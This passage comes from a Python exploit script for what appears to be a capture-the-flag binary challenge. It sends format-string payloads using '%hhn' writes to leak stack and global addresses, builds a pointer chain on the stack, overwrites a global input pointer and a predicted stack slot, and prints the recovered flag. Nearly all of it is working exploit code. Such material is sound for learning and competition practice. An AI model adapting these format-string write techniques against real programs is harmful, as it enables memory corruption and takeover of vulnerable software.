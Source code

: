 ```python
        global current_rsp
        b = f"%{value & 0xFF}d%{offset}$hhn".encode("ascii").ljust(13, b"\0")
        p.recvuntil("> ".encode("ascii"))
        p.send(b)
        p.recvline()
        current_rsp -= 96

    # Gather info
    global_input_ptr = read(25)
    target_addr = read(11) + 666 # (doExit+0x2F) + 666
    current_rsp = read(10) - 80

    # Seed pointer chain on stack
    sp = seed(target_addr)
    sp = seed(sp)
    sp = seed(sp)
    sp = seed(sp)
    sp = seed(sp)

    # Write pointers to global input pointer variable
    for i2 in range(4):
        seed(global_input_ptr+i2*2)
        write16(sp >> (16*i2), 20)

    # Predict next stack variable and seed the address so we can overwrite it
    seed(current_rsp - 2*96)
    write8(0xC8, 20)

    p.recvuntil(b"flag")
    print("flag" + p.recvline().decode("ascii").strip())
finally:
    p.close()
```